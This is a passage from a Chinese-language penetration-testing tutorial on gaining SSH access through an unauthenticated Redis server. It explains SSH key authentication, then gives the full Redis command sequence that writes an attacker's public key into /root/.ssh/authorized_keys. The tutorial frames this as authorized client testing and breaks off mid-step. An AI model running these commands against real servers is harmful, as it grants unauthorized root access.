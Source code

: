 ## 一、写 ssh-keygen 公钥登录服务器
### 利用的原理：
现在先说明一下SSH免密登录的原理：

SSH提供两种登录验证方式，一种是口令验证也就是账号密码登录，另一种是密钥验证。

所谓密钥验证，其实就是一种基于公钥密码的认证，使用公钥加密、私钥解密，其中公钥是可以公开的，放在服务器端，你可以把同一个公钥放在所有你想SSH远程登录的服务器中，而私钥是保密的只有你自己知道，公钥加密的消息只有私钥才能解密，大体过程如下：

>（1）客户端生成私钥和公钥，并把公钥拷贝给服务器端；
>（2）客户端发起登录请求，发送自己的相关信息；
>（3）服务器端根据客户端发来的信息查找是否存有该客户端的公钥，若没有拒绝登录，若有则生成一段随机数使用该公钥加密后发送给客户端；
>（4）客户端收到服务器发来的加密后的消息后使用私钥解密，并把解密后的结果发给服务器用于验证；
>（5）服务器收到客户端发来的解密结果，与自己刚才生成的随机数比对，若一样则允许登录，不一样则拒绝登录。
### 需要的条件：
1、Redis服务使用ROOT账号启动

2、服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。

### redis执行的命令：
```
192.168.1.154:6379>config set dir /root/.ssh/
192.168.1.154:6379>config set dbfilename authorized_keys
192.168.1.154:6379>set x "\n\n\n ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCdPp3/tfIlmHhVKuaR5Ckd0uuv98Q6AusZP9ZJrrb8aRWniTNCdUvV7gfW5ctZxROXfUF+tvnd6So8MwR70AwNqaCsWrsUBPzJXcR1Zl89M1G9KulUOgF3rANKQ8dqZivouvs1DcqkyqWi1652tAQ+4xS8i/mhFeS0dxjajttcrzmirF9DPzlsKTzfbMpUYupRAOl7GikdB9dhPzH3xQ4Oem4UMeZbznPuT861msmNLByh3ni+szdrF8yqwbPkVSDDbUlFCppF9N+Fykra5Uuc/tkXZaxgAjBWdpeFsLnMPlBWKoN1BJpzwZHgG2iKLT7PJS5bqx+RdkD7XJy9eqXL root@mail.test.com \n\n\n"
192.168.1.154:6379> save
```
### 具体操作：
1、本地生成公钥文件：

需要为我们的公钥文件设置一个私钥

公钥文件默认路径：/root/.ssh/id_rsa.pub

![图片](https://ae01.alicdn.com/kf/Uff8d8b96b6b14186b554c34eeae5c432b.png)

2、通过未授权访问redis：

![图片](https://ae01.alicdn.com/kf/U65c7d0e4b60e4643a05e84441780259dc.png)

注意：在给客户做测试的时候记得先看下当前设置的目录和文件名，做完测试记得恢复

3、利用redis的数据备份功能修改备份目录为 /redis/.ssh/   备份文件名为 authorized_keys

![图片](https://ae01.alicdn.com/kf/U6f195f2fb83f46e3bcda910affbdc974B.png)

4、创建一个键值:

(1) 复制id_rsa.pub文件的内容：

